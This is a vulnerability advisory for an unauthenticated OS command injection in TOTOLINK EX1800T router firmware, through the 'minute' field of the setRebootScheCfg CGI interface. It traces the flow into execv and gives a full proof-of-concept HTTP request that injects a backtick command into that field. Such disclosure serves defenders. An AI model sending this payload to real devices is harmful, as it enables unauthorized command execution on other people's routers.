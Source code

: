 # OS Command Injection 06 setRebootScheCfg->minute

## TOTOLINK EX1800T OS Command Injection Vulnerability

Vendor：Totolink

Product：EX1800T

Firmware：https://www.totolink.net/home/menu/detail/menu\_listtpl/download/id/223/ids/36.html

Affected Version：V9.1.0cu.2112\_B20220316

Class：OS Command Injection

Summary：TOTOLINK EX1800T V9.1.0cu.2112\_B20220316 is vulnerable to unauthorized arbitrary command execution in the ‘minute’ parameter of the setRebootScheCfg interface of the cstecgi .cgi. This vulnerability don't need to login, due to insufficient input validation and sanitization, an attacker can exploit this flaw by injecting malicious OS commands through the minute field. Successful exploitation allows the attacker to execute any command.

## Vulnerability details

In the TOTOLINK EX1800T V9.1.0cu.2112_B20220316 firmware has a Command Injection Vulnerability in `setRebootScheCfg`​ Interface, `minute`​variable recevies the key parameter:

![image](assets/image-20250305143042-08f0pcn.png)

And passes it to the `Uci_Set_Str`​ function for processing. However `Uci_Set_Str`​ function will final call `execv`​ and the parameter contains the `minute`​'s value

In `Uci_Set_Str`​:

![image](assets/image-20250305134119-m70q2q6.png)

the `a4`​ parameter we can pass by `minute`​, here will call `snprintf`​ function to splice the strings to `v12`​，and call `CsteSystem`​, this will call execv function and trigger OS Command Injection

![image](assets/image-20250305134440-eim7vg9.png)

## POC

```markdown
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.41.184:8885
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset:utf-8
Content-Length: 130
Origin: http://192.168.41.184:8885
Connection: close
Referer: http://192.168.41.184:8885/page/index.html?timestamp=1741068107856
Priority: u=0

{"mode":"","week":"","hour":"","minute":"255`uname>>../minute.txt`","recHour":"","token":"","topicurl":"setting/setRebootScheCfg"}
```

![image](assets/image-20250305142953-6pc1ufw.png)

![image](assets/image-20250305143002-uzhdrp3.png)
